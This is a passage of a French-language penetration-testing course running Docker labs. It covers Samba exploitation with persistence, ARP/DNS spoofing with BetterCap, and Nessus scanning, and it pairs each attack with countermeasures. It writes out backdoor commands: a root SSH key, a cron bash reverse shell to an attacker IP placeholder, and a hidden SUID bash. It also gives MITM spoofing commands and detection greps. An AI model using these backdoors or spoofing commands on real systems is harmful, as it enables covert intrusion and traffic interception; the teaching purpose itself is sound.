**Fig 8d** — Persistance SSH (T1098.004) : ajout de clé publique dans `authorized_keys` après obtention d'un shell root, permettant un accès SSH permanent sans mot de passe.

```bash
# === Persistance 1 : Clé SSH permanente (T1098.004) ===
# Création du dossier .ssh pour l'utilisateur root (-p : crée les parents si nécessaire, ignore si existe déjà)
mkdir -p /root/.ssh
# Ajout de votre clé publique SSH dans le fichier authorized_keys
# >> : ajoute à la fin du fichier (ne pas écraser une clé existante d'un autre attaquant ou de l'admin)
# Remplacez YOUR_PUBLIC_KEY par le contenu de ~/.ssh/id_rsa.pub de votre machine Kali
echo "YOUR_PUBLIC_KEY" >> /root/.ssh/authorized_keys
# chmod 600 : permissions restrictives obligatoires pour SSH (lecture/écriture propriétaire uniquement)
# Sans ces permissions, le démon SSH refusera d'utiliser le fichier authorized_keys
chmod 600 /root/.ssh/authorized_keys

# === Persistance 2 : Cron reverse shell (tâche planifiée toutes les minutes) ===
# /etc/crontab : fichier de configuration cron système (privilégié, exécuté en tant que root)
# 5 champs cron : minute heure jour mois jour_semaine — "* * * * *" = toutes les minutes
# root : l'utilisateur sous lequel la commande s'exécute
# bash -c '...' : exécute la chaîne entre guillemets dans un nouveau shell bash
# bash -i >& /dev/tcp/<KALI_IP>/5555 0>&1 : reverse shell bash classique
#   -i : mode interactif (affiche le prompt)
#   >& /dev/tcp/<KALI_IP>/5555 : redirige stdout et stderr vers la connexion TCP sortante vers l'IP Kali
#   0>&1 : redirige stdin depuis la même connexion TCP (permet d'envoyer des commandes)
# Remplacez <KALI_IP> par l'adresse IP réelle de votre machine Kali
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/<KALI_IP>/5555 0>&1'" >> /etc/crontab

# === Persistance 3 : SUID bash caché (porte dérobée furtive) ===
# cp /bin/bash /tmp/.bash_hidden : copie le binaire bash dans un emplacement discret (/tmp/)
# Le nom commence par un point (.) pour le cacher de la commande ls standard
# chmod 4755 : définit les permissions rwxr-xr-x + bit SUID (4)
#   Le bit SUID (Set User ID) fait que le binaire s'exécute avec les droits du propriétaire (root)
#   N'importe quel utilisateur lançant /tmp/.bash_hidden -p obtiendra un shell root
cp /bin/bash /tmp/.bash_hidden && chmod 4755 /tmp/.bash_hidden
```

### Étape 4 — Kill chain documentée

| Phase | Tactic | Technique | Outil |
|---|---|---|---|
| 1 | [TA0007](https://attack.mitre.org/tactics/TA0007/) Discovery | [T1046](https://attack.mitre.org/techniques/T1046/) | nmap -sV |
| 2 | [TA0001](https://attack.mitre.org/tactics/TA0001/) Initial Access | [T1190](https://attack.mitre.org/techniques/T1190/) | Metasploit vsftpd |
| 3 | [TA0002](https://attack.mitre.org/tactics/TA0002/) Execution | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Shell root |
| 4 | [TA0003](https://attack.mitre.org/tactics/TA0003/) Persistence | [T1098.004](https://attack.mitre.org/techniques/T1098/004/) | SSH key |

### Checkpoints finaux

- [ ] nmap : 6+ ports identifiés
- [ ] vsftpd exploité → shell root
- [ ] Samba exploité → shell root
- [ ] Persistance mise en place
- [ ] Kill chain documentée

### 🔒 Contre-mesure (M1042 Disable Service + M1018 Account Management + M1022 File Integrity)

La kill chain du Jour 2 a laissé **3 backdoors actives**. Une défense complète doit :

| Backdoor | Détection | Suppression | Mitigation ATT&CK |
|---|---|---|---|
| SSH key dans `authorized_keys` | `cat /root/.ssh/authorized_keys` | `rm /root/.ssh/authorized_keys` | M1018 Account Management |
| Cron reverse shell dans `/etc/crontab` | `grep -r "bash -i\|/dev/tcp" /etc/cron*` | Supprimer la ligne suspecte | M1018 + M1036 Fail2ban |
| SUID bash `/tmp/.bash_hidden` | `find / -perm -4000 -type f 2>/dev/null` | `rm /tmp/.bash_hidden` | M1022 File Integrity |
| Samba 3.0.20 (CVE-2007-2447) | `dpkg -l samba` | `apt-get upgrade samba` | M1051 Update Software |

```bash
# Nettoyer les 3 backdoors de persistance laissées par l'attaque
docker exec vsftpd-target bash -c "
  # 1. Supprimer la clé SSH non autorisée
  # rm -f = supprime le fichier sans demander confirmation (force). À utiliser avec précaution : pas de corbeille !
rm -f /root/.ssh/authorized_keys && echo '[+] SSH key removed'
  # 2. Nettoyer les crontabs suspects (reverse shell)
  sed -i '/bash -i.*\/dev\/tcp/d' /etc/crontab 2>/dev/null && echo '[+] Cron cleaned'
  # 3. Supprimer le binaire SUID backdoor
  find /tmp /var/tmp -perm -4000 -type f -delete 2>/dev/null && echo '[+] SUID backdoors purged'
  # 4. Mettre à jour Samba
  apt-get upgrade -y samba 2>/dev/null && echo '[+] Samba upgraded'
"
# Vérification : les backdoors sont supprimées
docker exec vsftpd-target bash -c "
  echo '--- SSH keys ---' && ls /root/.ssh/ 2>/dev/null || echo '(aucune)'
  echo '--- Cron ---' && grep -c 'bash -i' /etc/crontab 2>/dev/null || echo '0'
  echo '--- SUID ---' && find /tmp -perm -4000 -type f 2>/dev/null | wc -l
"
```

> **Checkpoint défensif :** Plus aucune backdoor active. Samba est à jour (CVE-2007-2447 corrigée). Le serveur est propre.

> **📌 À retenir :** On a exploité Samba 3.0.20 (CVE-2007-2447, command injection dans usermap) et mis en place 3 mécanismes de persistance : clé SSH, cron reverse shell, SUID bash caché. La kill chain complète [TA0007] → [TA0003] est documentée.  
> **Attendu :** Shell root via Samba + 3 backdoors de persistance actives + kill chain tracée.  
> **Défense :** Désactiver SMB si inutile, surveiller authorized_keys/crontab (M1018), détecter les binaires SUID anormaux (M1022).

### Résultat attendu

- [ ] Exploit Samba : session shell ouverte, `whoami` → `root`
- [ ] Persistance 1 : clé SSH ajoutée → `ssh root@cible` sans mot de passe
- [ ] Persistance 2 : cron reverse shell actif dans `/etc/crontab`
- [ ] Persistance 3 : SUID bash copié dans `/tmp/.bash_hidden`
- [ ] Kill chain complète documentée : [TA0007] → [TA0001] → [TA0002] → [TA0003]
- [ ] Contre-mesure : 3 backdoors nettoyées, Samba mis à jour

---

## Lab 2.5 — ARP Poisoning et attaque MITM avec BetterCap

### Fiche

| Durée | Outil | Dossier | Techniques ATT&CK |
|---|---|---|---|
| 1h | bettercap, wireshark | `rendu_labs/jour-02/` | [T1557.002](https://attack.mitre.org/techniques/T1557/002/) ARP Poisoning + [T1040](https://attack.mitre.org/techniques/T1040/) Network Sniffing |

### Contexte métier

L'ARP poisoning (ou ARP spoofing) est l'une des techniques les plus anciennes mais toujours efficace sur des réseaux locaux non segmentés. L'attaquant s'intercale entre deux machines (ex: victime et passerelle) pour intercepter, modifier ou bloquer le trafic. Dans un pentest interne, un ARP MITM permet de capturer les identifiants, rediriger vers un faux site DNS, ou simplement prouver l'absence de segmentation réseau.

> **Note de sécurité :** Cette technique est strictement réservée aux tests en laboratoire. Sur un réseau de production, l'ARP spoofing provoque des dénis de service et doit être encadré par un périmètre d'audit défini contractuellement.

### Contexte technique — Rappel ARP

Le protocole ARP (Address Resolution Protocol) associe une adresse IP à une adresse MAC. Lorsqu'une machine veut joindre une autre sur le même réseau, elle diffuse une requête ARP : "Qui a l'IP X ?" La machine cible répond "C'est moi, ma MAC est Y". L'attaquant peut usurper cette réponse en envoyant des paquets ARP falsifiés, associant **sa propre MAC** à l'IP de la passerelle. Le trafic de la victime passe alors par l'attaquant (Man-in-the-Middle).



**Fig 8b** — Attaque MITM par ARP poisoning : l'attaquant empoisonne la table ARP de la victime pour dévier tout son trafic.

### Prérequis

```bash
cd rendu_labs/jour-02

# 📌 Vérifier que BetterCap est installé (pré-installé sur Kali)
which bettercap || sudo apt install -y bettercap

# 📌 Identifier l'IP du conteneur cible (ex: dvwa-target) et la passerelle docker
# docker inspect = affiche la configuration complète du conteneur
# grep IPAddress = filtre les informations réseau
docker inspect dvwa-target | grep IPAddress
# → "172.17.0.2"  (l'IP du conteneur DVWA sur le réseau docker)
docker inspect vsftpd-target | grep IPAddress
# → "172.17.0.3"  (l'IP de Metasploitable 2)

# 📌 Noter votre propre IP Kali sur le réseau docker (vous êtes l'attaquant)
ip addr show docker0 | grep 'inet ' | awk '{print $2}' | cut -d/ -f1
# → 172.17.0.1  (votre Kali est la passerelle du réseau docker)
```

### Étape 1 — Découverte des hôtes — [T1040](https://attack.mitre.org/techniques/T1040/) Network Sniffing

```bash
cd rendu_labs/jour-02

# 📌 BetterCap : découvrir les machines actives sur le réseau docker
# 🔍 net.probe on = active la sonde réseau (ARP + ICMP + mDNS)
# 🔍 net.show = affiche la table des hôtes découverts (IP, MAC, hostname)
sudo bettercap -eval "net.probe on; sleep 3; net.show" 2>/dev/null
```

Sortie attendue :

```console
+-----------------+-------------------+----------+------------------+
| IP              | MAC               | Name     | Sent             |
+-----------------+-------------------+----------+------------------+
| 172.17.0.1      | xx:xx:xx:xx:xx:xx | kali     | 12 packets       |
| 172.17.0.2      | xx:xx:xx:xx:xx:xx | dvwa     | 8 packets        |
| 172.17.0.3      | xx:xx:xx:xx:xx:xx | vsftpd   | 6 packets        |
+-----------------+-------------------+----------+------------------+
```

**Checkpoint A :** Les conteneurs dvwa-target (172.17.0.2) et vsftpd-target (172.17.0.3) sont visibles.

### Étape 2 — ARP Spoofing + Sniffing — [T1557.002](https://attack.mitre.org/techniques/T1557/002/) ARP Cache Poisoning

```bash
cd rendu_labs/jour-02

# 📌 ARP spoofing entre la cible DVWA et la passerelle
# 🔍 set arp.spoof.targets = IP(s) de la victime (le conteneur DVWA)
# 🔍 arp.spoof on = démarre l'empoisonnement ARP
# 🔍 net.sniff on = capture tout le trafic qui passe par nous
# Le flag --no-http-redirect évite la redirection HTTPS (reste en HTTP)
sudo bettercap -eval "set arp.spoof.targets 172.17.0.2; arp.spoof on; net.sniff on" 2>&1 | tee bettercap_arp.txt
```

**Dans un second terminal**, générez du trafic vers le conteneur DVWA :

```bash
# 📌 Générer une requête HTTP depuis Kali vers DVWA (traversera l'attaquant)
curl http://172.17.0.2/login.php -s | head -5
```

Revenez dans le **Terminal 1** (BetterCap) : vous devriez voir le trafic HTTP capturé :

```console
[net.sniff.http] 172.17.0.1 > 172.17.0.2  GET /login.php
```

**Checkpoint B :** Le trafic HTTP de Kali vers DVWA est intercepté et affiché par BetterCap.

### Étape 3 — DNS Spoofing — [T1557.002](https://attack.mitre.org/techniques/T1557/002/) ARP Cache Poisoning

```bash
cd rendu_labs/jour-02

# 📌 DNS spoofing : rediriger une requête DNS vers une IP choisie
# 🔍 set dns.spoof.all = true = capture toutes les requêtes DNS
# 🔍 dns.spoof.domains = domaine(s) à rediriger
# 🔍 dns.spoof.address = IP de destination (la nôtre pour simuler un faux site)
sudo bettercap -eval "set arp.spoof.targets 172.17.0.2; arp.spoof on; set dns.spoof.all true; dns.spoof on" 2>&1
```

**Terminal 2** — test depuis la cible :

```bash
# 📌 Depuis le conteneur DVWA, résoudre un nom de domaine
# La requête DNS est interceptée par BetterCap et redirigée vers l'IP de l'attaquant
docker exec dvwa-target bash -c "nslookup google.com 2>/dev/null || host google.com"
# → google.com has address 172.17.0.1  (au lieu de l'IP réelle de Google)
```

**Checkpoint C :** google.com résout vers l'IP de l'attaquant — le DNS spoofing fonctionne.

### 🔒 Contre-mesure (M1037 Network Segmentation + M1040 ARP Inspection)

| Attaque | Défense | Mise en œuvre |
|---------|---------|---------------|
| ARP spoofing | **DAI** (Dynamic ARP Inspection) | Sur switchs Cisco : `ip arp inspection vlan <id>` |
| MITM | **Segmentation réseau** | VLANs, micro-segmentation, conteneurs isolés par réseau |
| Sniffing | **Chiffrement TLS** | HTTPS partout (HSTS), certificats valides |

```bash
# 📌 Contre-mesure simple : ajouter une entrée ARP statique sur la victime
# 🔍 arp -s = ajoute une entrée statique (IP → MAC) qui ne peut pas être modifiée par ARP spoofing
docker exec dvwa-target bash -c "arp -s 172.17.0.1 $(ip addr show docker0 | grep 'link/ether' | awk '{print $2}')"
docker exec dvwa-target bash -c "arp -n"
# → L'entrée statique empêche l'empoisonnement ARP

# 📌 Vérification : relancer l'ARP spoofing après l'entrée statique
# sudo bettercap -eval "set arp.spoof.targets 172.17.0.2; arp.spoof on; net.sniff on" 2>&1 | head -10
# → [arp.spoof] 0 packets spoofed (la cible ignore les ARP falsifiés)
```

> **Checkpoint défensif :** Avec une entrée ARP statique, l'empoisonnement ARP échoue. Le trafic reste entre la cible et la passerelle légitime.

> **📌 À retenir :** On a réalisé une attaque MITM par ARP poisoning avec BetterCap, incluant le sniffing HTTP et le DNS spoofing. Cette attaque fonctionne sur tout réseau local non segmenté.  
> **Attendu :** Trafic HTTP intercepté, google.com résout vers l'IP de l'attaquant.  
> **Défense :** Dynamic ARP Inspection (DAI) sur les switchs, entrées ARP statiques, chiffrement TLS (HTTPS HSTS).

### Résultat attendu

- [ ] BetterCap : découverte des 3 hôtes (Kali 172.17.0.1, dvwa 172.18.0.3, vsftpd 172.18.0.4)
- [ ] ARP spoofing : trafic HTTP intercepté visible dans le terminal BetterCap
- [ ] DNS spoofing : `nslookup google.com` résout vers l'IP de l'attaquant (172.17.0.1 ou 172.18.0.1)
- [ ] Contre-mesure : entrée ARP statique → spoofing bloqué (0 packets spoofed)
- [ ] Comprendre le principe ARP : résolution IP → MAC, table ARP, broadcast
- [ ] Savoir configurer bettercap : `arp.spoof`, `net.sniff`, `dns.spoof`

---

## Lab 2.6 — Scanner de vulnérabilités Nessus

### Fiche

| Durée | Outil | Dossier | Techniques ATT&CK |
|---|---|---|---|
| 45 min | Nessus Essentials | `rendu_labs/jour-02/` | [T1046](https://attack.mitre.org/techniques/T1046/) Network Service Scanning + [T1595](https://attack.mitre.org/techniques/T1595/) Active Scanning |

### Contexte métier

Un scanner de vulnérabilités est la première brique d'un programme de sécurité. Nessus est le standard du marché (Tenable), utilisé par les équipes SOC et les auditeurs. **Important — question RGPD :** Nessus Essentials est gratuit et réalise les scans **en local** sur votre machine. Aucune donnée n'est transmise à Tenable. En entreprise française, Nessus Professional est autorisé sous contrat de licence, les données de scan restent sur votre infrastructure.

**Fonctionnement :** Nessus identifie les versions de services, les compare à une base de CVE, et produit un rapport de criticité (CVSS v3.1). Il détecte les mêmes vulnérabilités que les exploits des labs précédents : vsftpd 2.3.4 (CVE-2011-2523), Samba 3.0.20 (CVE-2007-2447).



**Fig 8e** — Architecture d'un scan Nessus : le moteur sonde la cible, compare les versions détectées à sa base de plugins CVE, et génère un rapport de vulnérabilités côté interface.

### Prérequis

```bash
cd rendu_labs/jour-02

# 📌 Télécharger Nessus Essentials (gratuit, licence renouvelable)
# Rendez-vous sur https://www.tenable.com/products/nessus/nessus-essentials
# Téléchargez le paquet .deb pour Kali/Debian
# wget = télécharge un fichier depuis une URL ; -O = nom du fichier de sortie
wget -O nessus.deb "https://www.tenable.com/downloads/api/v1/public/pages/nessus-professional/downloads/27899/download?i_agree_to_tenable_license_agreement=true" 2>/dev/null || wget -O nessus.deb "https://www.tenable.com/products/nessus/nessus-essentials"
# ou adaptez l'URL selon la version disponible

# 📌 Installer le paquet
sudo dpkg -i nessus.deb 2>/dev/null

# 📌 Démarrer le service Nessus
sudo systemctl start nessusd
sudo systemctl enable nessusd

# 📌 Accéder à l'interface : https://localhost:8834
# Premier lancement : création du compte admin + licence (code obtenu par email)
# Compter 5-10 min pour le téléchargement des plugins
echo "Interface Nessus : https://localhost:8834"
```

> **Alternative rapide :** Si l'installation de Nessus prend trop de temps, utilisez `nmap --script vuln` comme substitut (déjà disponible, même principe mais sans l'interface graphique).

### Étape 1 — Scan du réseau docker — [T1595](https://attack.mitre.org/techniques/T1595/) Active Scanning

```bash
cd rendu_labs/jour-02

# 📌 Depuis l'interface Nessus (https://localhost:8834) :
# 1. New Scan → Basic Network Scan
# 2. Targets : 127.0.0.1  (scanner le localhost = tous les conteneurs exposés)
# 3. Name : "Pentest Lab J2"
# 4. Launch → run

# Alternative en ligne de commande (si nessuscli disponible) :
# nessuscli scan --target 127.0.0.1 --policy "Basic Network Scan"
```

Sortie attendue dans Nessus (après ~5-10 min de scan) :

```console
CRITICAL  vsftpd 2.3.4 detected — CVE-2011-2523 (CVSS: 9.8)
CRITICAL  Samba 3.0.20 usermap script — CVE-2007-2447 (CVSS: 9.8)
HIGH      Apache httpd 2.2.8 — Multiple XSS (CVE-2010-1623)
MEDIUM    SSH server vulnerable to DoS — CVE-2010-4478
```

### Étape 2 — Comparaison avec nmap — [T1046](https://attack.mitre.org/techniques/T1046/) Network Service Scanning

```bash
cd rendu_labs/jour-02

# 📌 Comparer les résultats Nessus avec nmap --script vuln
# 🔍 --script vuln = exécute tous les scripts NSE de la catégorie vulnérabilité
# 🔍 -oA = sortie dans les 3 formats (nmap, gnmap, xml) pour le rapport
OUTDIR="recon/$(date +%H%M)" && mkdir -p "$OUTDIR"
nmap --script vuln -p 21,445,80,3306 localhost -oA "$OUTDIR/nmap_vuln_scan" 2>/dev/null | head -30
```

**Checkpoint A :** Nessus et nmap détectent tous deux les CVE critiques sur vsftpd et Samba. Nessus produit plus de résultats (base CVE plus large) et un rapport formaté.

### Étape 3 — Interprétation du rapport Nessus — [T1595](https://attack.mitre.org/techniques/T1595/) Active Scanning

```bash
cd rendu_labs/jour-02

# 📌 Exporter le rapport Nessus en PDF ou HTML
# Dans l'interface Nessus → Scan → Export → PDF (ou CSV, HTML)
# Le rapport contient pour chaque vulnérabilité :
#   - CVE, CVSS v3.1, description, preuve, remédiation

# 📌 Créer un résumé dans votre dossier de lab
echo "=== RÉSUMÉ SCAN NESSUS ===" > nessus_summary.txt
echo "Date : $(date)" >> nessus_summary.txt
echo "Cibles : 127.0.0.1 (conteneurs docker)" >> nessus_summary.txt
echo "" >> nessus_summary.txt
echo "Vulnérabilités critiques :" >> nessus_summary.txt
echo "  - CVE-2011-2523 : vsftpd 2.3.4 backdoor (CVSS 9.8)" >> nessus_summary.txt
echo "  - CVE-2007-2447 : Samba 3.0.20 usermap (CVSS 9.8)" >> nessus_summary.txt
echo "  - Mots de passe faibles détectés (hydra)" >> nessus_summary.txt
```

**Checkpoint B :** Un résumé de scan est sauvegardé. Vous avez les preuves nécessaires pour la section "Vulnérabilités critiques" d'un rapport de pentest.

### 🔒 Contre-mesure (M1051 Update Software + M1042 Vulnerability Scanning)

Nessus n'est pas seulement offensif — c'est aussi l'outil du défenseur pour maintenir son SI à jour :

| Usage offensif | Usage défensif |
|----------------|----------------|
| Trouver des failles pour les exploiter | Planifier les correctifs (patch management) |
| Valider l'impact d'une CVE | Vérifier l'application des correctifs (ré-scan) |
| Cartographier la surface d'attaque | Alimenter un SOC (Nessus + ELK) |

```bash
# 📌 Simuler la correction des vulnérabilités détectées
# Mise à jour vsftpd (comme au Lab 2.2)
docker exec vsftpd-target bash -c "apt-get update && apt-get install -y vsftpd 2>/dev/null && echo 'OK'"
# → OK  (vsftpd mis à jour)

# Mise à jour Samba (comme au Lab 2.3)
docker exec vsftpd-target bash -c "apt-get install -y samba 2>/dev/null && echo 'OK'"
# → OK  (Samba mis à jour)

# Re-scanner avec Nessus après correction : les CVE critiques disparaissent du rapport
```

> **Checkpoint défensif :** Un scan Nessus avant/pendant/après le patch management démontre l'efficacité des correctifs. C'est exactement ce qu'attend un auditeur RGS.

> **📌 À retenir :** On a scanné le réseau docker avec Nessus Essentials, détectant les mêmes CVE critiques (vsftpd, Samba) que les exploits précédents, avec un rapport formaté et des scores CVSS. Nessus est autant un outil offensif que défensif.  
> **Attendu :** CVE critiques (CVSS 9.8) détectées sur vsftpd et Samba, rapport exporté.  
> **Défense :** Patch management + re-scans réguliers avec Nessus pour valider l'application des correctifs (audit RGS/NIS2).

### Résultat attendu

- [ ] Nessus installé et accessible (https://localhost:8834) ou alternative nmap --script vuln
- [ ] Scan Nessus : CVE-2011-2523 (vsftpd) et CVE-2007-2447 (Samba) détectées en CRITICAL
- [ ] Comparaison : `nmap --script vuln` retrouve les mêmes vulnérabilités
- [ ] Rapport exporté dans `rendu_labs/jour-02/nessus_summary.txt`
- [ ] Contre-mesure : mise à jour des paquets → CVE disparues au re-scan
- [ ] Comprendre la différence entre scanner de vulnérabilités (Nessus) et scan réseau (nmap)

---

## Synthèse du chapitre

| Lab | Attaque | Compétence acquise | ATT&CK |
|-----|---------|-------------------|--------|
| 2.1 — Reconnaissance | Scan nmap exhaustif (-sV, -sC, NSE vuln) | Cartographie de la surface d'attaque, identification des services | [T1046](https://attack.mitre.org/techniques/T1046/) |
| 2.2 — vsftpd 2.3.4 | Backdoor supply chain (CVE-2011-2523) | Exploitation Metasploit + manuelle, shell root | [T1190](https://attack.mitre.org/techniques/T1190/) |
| 2.3 — Samba + Persistance | Command injection Samba (CVE-2007-2447) | Kill chain complète, 3 méthodes de persistance (SSH, cron, SUID) | [T1210](https://attack.mitre.org/techniques/T1210/) → [TA0003](https://attack.mitre.org/tactics/TA0003/) |
| 2.5 — ARP Poisoning | MITM par ARP spoofing + DNS spoof | Interception trafic, redirection DNS, BetterCap | [T1557.002](https://attack.mitre.org/techniques/T1557/002/) |
| 2.6 — Nessus | Scan de vulnérabilités automatisé | Détection CVE, rapport CVSS, comparaison nmap | [T1046](https://attack.mitre.org/techniques/T1046/) / [T1595](https://attack.mitre.org/techniques/T1595/) |

Ce chapitre a couvert l'essentiel d'un test de pénétration interne : de la reconnaissance réseau à l'exploitation de vulnérabilités critiques, en passant par la persistance et les attaques réseau locales. Chaque lab correspond à une phase réelle de pentest, avec les tactiques ATT&CK associées, permettant de structurer la démarche selon le standard PTES.

Les trois exploits (vsftpd, Samba, ARP poisoning) démontrent des classes de vulnérabilités distinctes — supply chain, command injection, protocole réseau non sécurisé — et autant de leçons défensives. La mise à jour logicielle (M1051) et la segmentation réseau (M1037) restent les contre-mesures les plus efficaces face à ces attaques.

**Livrable attendu :** Une kill chain ATT&CK complète documentée, un rapport de scan (nmap + Nessus), et la capacité d'expliquer chaque phase à un auditeur RGS/NIS2. Ces éléments constituent la base d'un rapport de pentest professionnel.

## Exercices

### Exercice 1 : Couche ATT&CK Navigator J2

**Énoncé :** Créez une couche avec [T1046](https://attack.mitre.org/techniques/T1046/), [T1190](https://attack.mitre.org/techniques/T1190/), [T1210](https://attack.mitre.org/techniques/T1210/), [T1059.004](https://attack.mitre.org/techniques/T1059/004/), [T1098.004](https://attack.mitre.org/techniques/T1098/004/). Exportez en JSON.

<details><summary><strong>Solution</strong></summary>
ATT&CK Navigator → New Layer → ajouter les 5 techniques → Download JSON
</details>

### Exercice 2 : Mapping EternalBlue

**Énoncé :** WannaCry (2017) : quelles techniques ATT&CK ?

<details><summary><strong>Solution</strong></summary>
- EternalBlue (CVE-2017-0144) → [T1210](https://attack.mitre.org/techniques/T1210/) ([TA0008](https://attack.mitre.org/tactics/TA0008/)), DoublePulsar → [T1543.003](https://attack.mitre.org/techniques/T1543/003/) ([TA0003](https://attack.mitre.org/tactics/TA0003/)), Chiffrement → [T1486](https://attack.mitre.org/techniques/T1486/) ([TA0014](https://attack.mitre.org/tactics/TA0014/))
</details>

---

## Points clés à retenir

- Kill chain ATT&CK : [TA0007](https://attack.mitre.org/tactics/TA0007/) → [TA0001](https://attack.mitre.org/tactics/TA0001/) → [TA0002](https://attack.mitre.org/tactics/TA0002/) → [TA0003](https://attack.mitre.org/tactics/TA0003/)
- vsftpd 2.3.4 → [T1190](https://attack.mitre.org/techniques/T1190/) (backdoor), Samba 3.0.20 → [T1210](https://attack.mitre.org/techniques/T1210/) (command injection)
- La persistance ([TA0003](https://attack.mitre.org/tactics/TA0003/)) distingue une intrusion d'une compromission durable
- **Rapport de pentest = livrable réglementaire** (homologation RGS, conformité NIS2)

## Pour aller plus loin

- [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
- [ATT&CK Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/)
- [GTFOBins](https://gtfobins.github.io/)
- TryHackMe : [Metasploit room](https://tryhackme.com/room/metasploitintro), [SMB Exploitation](https://tryhackme.com/room/benign)

---

